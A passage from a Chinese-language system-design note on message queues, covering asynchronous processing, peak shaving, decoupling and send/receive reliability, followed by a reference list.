### 二、使用场景

#### 异步处理

发送者发送消息到消息队列之后，不需要等待同步处理，直接返回自己的线程。这些都是异步处理的。

只有业务流程允许异步的时候才可以这样做，否则就不可以使用。

#### 流量削峰

高并发的时候，短时间内大量请求到达会压垮服务器，可以将请求放在消息队列里面，服务器按照其处理能力从消息队列里面订阅消息进行处理。

#### 应用解耦

如果模块之间不直接进行调用，模块之间耦合度就很低，从而修改一个模块或者新增模块影响就较小，从而实现可扩展性。

通过使用消息队列，一个模块向消息队列发送消息，其他模块可以选择性地从消息队列中订阅消息而完成调用。

### 三、可靠性

#### 发送端的可靠性

发送端完成操作一定可以将内容发送到消息队列里面。

实现方法：在本地数据库建一张消息表，将消息数据与业务数据保存在同一数据库实例里，这样利用数据库的事务特性，在事务提交成功之后就可以把消息表里面的消息转移到消息队列里面。

#### 接收端的可靠性

接收端能够从消息队列成功消费一次消息

两种实现方法：

+ 保证接收端处理消息的业务有幂等性，即多次操作后结果仍是一样的。
+ 保证消息具有唯一编号，并且使用一张日志来记录已经消费的消息编号。


## 参考资料

1. 大型网站技术架构：核心原理与案例分析
2. [Session Management using Spring Session with JDBC DataStore](https://sivalabs.in/2018/02/session-management-using-spring-session-jdbc-datastore/)[ ](https://sivalabs.in/2018/02/session-management-using-spring-session-jdbc-datastore/)
3. [维基百科：跨站脚本](https://zh.wikipedia.org/wiki/跨網站指令碼)[ ](https://zh.wikipedia.org/wiki/跨網站指令碼)
4. [维基百科：SQL 注入攻击](https://zh.wikipedia.org/wiki/SQL資料隱碼攻擊)
5. [维基百科：跨站点请求伪造](https://zh.wikipedia.org/wiki/跨站请求伪造)
6. [维基百科：拒绝服务攻击](https://zh.wikipedia.org/wiki/阻斷服務攻擊)
7. 大规模分布式存储系统
8. [缓存那些事](https://tech.meituan.com/cache_about.html)
9. [一致性哈希算法](https://my.oschina.net/jayhu/blog/732849)
10. [内容分发网络](https://zh.wikipedia.org/wiki/內容傳遞網路)
11. [How Aspiration CDN helps to improve your website loading speed?](https://www.aspirationhosting.com/aspiration-cdn/)
12. [Observer vs Pub-Sub](http://developers-club.com/posts/270339/)
13. [消息队列中点对点与发布订阅区别](https://blog.csdn.net/lizhitao/article/details/47723105)